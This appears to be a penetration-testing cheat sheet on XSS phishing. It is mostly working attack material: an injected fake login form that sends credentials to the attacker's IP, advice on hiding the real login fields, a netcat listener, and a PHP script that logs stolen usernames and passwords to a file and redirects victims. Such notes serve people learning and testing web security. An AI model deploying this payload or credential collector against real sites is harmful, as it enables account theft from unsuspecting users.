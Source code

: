 # Phishing

## Overview

Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker.

A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server.

## Login form injection

We inject HTML code that displays a login form on the targeted page and sends the login information to a server we are listening on.

```console
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

We can write this using `document.write()` as a XSS payload, with the minified HTML code into a single line.

Furthermore, remove any fields that might discourage the user from using our fake login form with `document.getElementById().remove()`.

## Credential stealing

Start a simple `netcat` server to listen on the connection attempts through the fake login form.

```console
sudo nc -lvnp 80
```

We can also use a simple script (in this case PHP) that logs the credentials from the HTTP request and then returns the victim to the original page without any injections.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

And then start the PHP listening server instead of netcat:

```console
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```
